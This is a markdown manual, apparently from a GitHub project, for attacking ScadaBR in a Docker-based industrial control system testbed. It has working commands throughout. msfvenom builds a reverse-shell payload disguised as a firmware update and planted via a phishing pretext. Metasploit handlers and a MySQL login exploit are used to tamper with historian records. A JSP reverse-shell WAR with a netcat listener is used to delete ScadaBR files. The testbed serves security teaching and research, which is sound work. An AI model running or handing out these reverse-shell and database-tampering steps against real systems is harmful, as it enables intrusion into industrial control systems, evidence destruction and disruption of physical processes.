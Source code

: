# Manual for Attack Scenarios on ScadaBR

## *ICS Network  network environment*
At this level, we consider you've installed the original testbed network (i.e from Yi Zhu's work). No mitigation solution has been implemented yet so all the components in the swat network can communicate with each other, no isolation nor segmentation is implemented yet.

## *Services running after running testbed*

Docker Containers

```
docker ps 
```

Displays the list of containers, you should have 06 plcs running, scadaBR and sim running.

**ScadaBR**
   - **Role:** Simulates a HMI and Historian in the Scada Network.
   - **Network:**
     - `Name` (Swat) 
     - `Ip address` (IP: 172.18.0.9)
   - **Ports:** 10010:8080

## *Accessing ScadaBR via the docker cli*
1. **Tomcat Dashboard**:
   - URL: `http://172.18.0.10:10010`
   - **Username**: `admin`
   - **Password**: `password`

**NB:** ScadaBR is deployed on a tomcat server so we have to access Tomcat's dashboard to be able to deploy or run the ScadaBR.war file properly

2. **ScadaBR Dashboard**:
   - URL: `http://172.18.0.10:10010/scadaBR/login.htm`
   - **Username**: `admin`
   - **Password**: `admin`


- You could also access scadaBR with docker cli

bash
```
docker exec -it scadabr bash
```


## *Setting up the attacker's machine*

Docker command:
```
sudo docker run -d -t --net swat --hostname attacker --name attacker --privileged --ip 172.18.0.18 -p 10018:8080 kalilinux/kali-rolling
```

Docker container

**Attacker**
   - **Role:** Simulates the attacker in the Scada network.
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.18)
   - **Ports:** 10018:8080
   - **Description:** The attacker will install the basic tools to counter attack.

## *Accessing the attacker's machine via the docker cli*

bash:
```
docker exec -it attacker bash
```

**NB:** We assume the attacker is already in the swat network so he can access other components of the Scada network

## *Scenario - 1 : Manipulate ScadaBR database(Historian)*

The first scenario consist of exploiting the database of scadaBR to erase monitoring evidences

If Metasploit is not installed in the attacker's machine, follow these steps:

Attacker's terminal
```
apt-get update && apt-get install -y git curl wget python3-pip
apt install metasploit-framework
```

### *Phase 1 : Craft malicious payload*

- The attacker creates a malicious payload usually named reverse shell using **Metasploit**’s `msfvenom` tool. to access to the scadaBR's container : 

#### *Command to craft the payload in the attacker's machine*

Attacker's terminal
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.115 LPORT=4444 -f elf -o mtu_firmware_update.elf
``` 

- The attacker loads the malicious payload into the target's machine. In a real world case, he could use phishing or handle a USB key to an employee. He will eventually tell the employee that it could be firmware update for ScadaBR. The idea is to have access to a target's machine in order to manipulate the scadaBR remotely. 
- In our attack scenario, we assume the phising attack went on successfullu, so we simply upload the crafted payload into the target container

bash 
```
docker cp attacker:/scripts/mtu_firmware_update.elf scadabr:/home
```

Then in scadabr, we run this 

ScadaBR terminal
```
cd home
chmod +x mtu_firmware_update.elf
./mtu_firmware_update.elf
```

- The payload is running successfully in the target's machine, so the attacker can access the target machine using reverse shell of **Metasploit**’s `msfvenom` tool.

#### *Set up a Metasploit Listener and Mysql exploit*

Attacker's terminal
```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 172.18.0.18 #attacker's IP address
set LPORT 4444
exploit
```

- When the payload is executed, the attacker will gain a reverse shell into the system. You can see that the attack can be repeated with ease
- But The aim here is exploit the mysql database deployed in this server, so we could use another exploit instead of multi/handler

Attacker's terminal
```
use scanner/mysql/mysql_login 
run rhost=172.18.0.10 rport=3306 username=scadabr password=scadabr createsession=true
sessions -i -1 
query_interactive 
```

- From here we could have access to the database and we can now write any sql query we wish, we can start creating rubbish in the db to disrupt the physical process

![Screenshot](../PLC_attack_scenarios/images/db/atk_8.png)

![Screenshot](../PLC_attack_scenarios/images/db/atk_10.png)

![Screenshot](../PLC_attack_scenarios/images/db/atk_11.png)

- As we can see, the attacker is capable to manipulate the database and do what so ever he wishes


### *Phase 2 : Stop ScadaBR from working by deleting its configuration files*

- In the attacker's machine we simple create a malicious war file that we going to deploy in the tomcat server 

Attacker's machine
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=172.18.0.18 lport=1234 -f war > shell.war
```

- We deploy this `shell.war` file in the tomcat dashboard and set a Listener on the attacker's machine using netcat

Attacker's machine
```
apt install netcat-traditional
nc -lvp 1234
```

- With this, the attacker will be able to access the shell of the tomcat server from the malicious shell.war file and be able to even delete scadaBR configuration files

Attacker's machine
```
nc -lvp 1234
cd tomcat7/webapps/ScadaBR/META-INF
rm index.jsp
```

![Screenshot](../PLC_attack_scenarios/images/db/atk_31.png)

![Screenshot](../PLC_attack_scenarios/images/db/atk_30.png)

- This will make scadaBR not available anymore. This testbed can enable you realize lots of simple and complex attacks 


## Summary

As you could see, implementing attacks is really easy to do, you could even more PLCS if you wish. Add more scripts and test them on ICS components easily. We experimented other testbeds and I can assure you, this is one of the easiest low-cost testbed to use for ICS security.
